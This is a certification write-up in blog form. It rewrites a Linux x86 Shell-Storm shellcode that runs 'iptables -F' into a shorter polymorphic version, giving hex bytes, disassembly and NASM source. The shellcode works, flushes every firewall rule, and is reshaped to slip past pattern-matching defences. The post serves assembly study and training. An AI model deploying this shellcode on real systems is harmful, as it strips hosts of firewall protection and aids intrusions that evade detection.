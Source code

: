 ```yaml
---
layout: post
title: SLAE 6.2 - Shell-Storm Polymorphism - iptables -F
date:   2019-03-05
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 2 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* The polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The version that I created from this post was submitted to and accepted by exploit-db.com.  The URL is:
[iptables -f shellcode](https://www.exploit-db.com/shellcodes/46491)


The 2nd piece of shellcode we will try to create a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-361.php](http://shell-storm.org/shellcode/files/shellcode-361.php)

The original length is 58 bytes, meaning we have up to 87 bytes maximum to fit in to the exam requirements (no more than 150%).

Let's take a look at the original shellcode and put it through ndisasm just to be sure it does what it claims.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
There is a jump-call-pop to get the string that is used. The #'s are replaced with nulls.  It looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of all the mov's that copy the string to another location.  We can then just use our already saved reference to the string.

We can use the same technique to store the iptables string in the proper register, jmp-call-pop into EBX.
Then we can zero out EDX with cdq and move a null byte into the '#' location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next, we set up the args struct.  The original shellcode copies the string to a location after the original and loads its address to ECX.  It then loads the address of an already used NULL byte in to EDX.
We can just skip all these steps and use our original string.  I will push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.

This is using the same strategy that a normal stack based execve call would use combined with the jmp-call-pop string.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.

Also note that in the string variable 'file' above, that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.  Our code is currently as follows:
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into EAX and interrupt (int 0x80).  We can use EDX since it is already null to mov into EAX just for a little variation.  Then mov 0xb into AL and make our syscall.
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  The objdump seems to be missing a few bytes in the string from /sbin/iptables.   I decided to manually insert the 'sb' from sbin and the 'a' from iptables, then it worked as expected.  This may have been an issue with the objdump command that I was using from the course video.  This is mentioned in one of the videos and quickly touches on why it happens.  It was mentioned that one of the cut command options can cause problems if the dump has large combinations of opcodes in 1 line.  I went ahead and inserted the bytes on my own but may go back to see if changing the command a bit will get it to work at another time.

The final product has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```

With the big reduction in size, I decided to check on exploit-db for any similar shellcode with equal or shorter length.  It turns out that there is only 1 other shellcode that was on there with the same length (none shorter).  The already published shellcode uses a full stack approach so I submitted the shellcode in the hopes that it will get accepted, which it did!  The link is above at the top of this post.
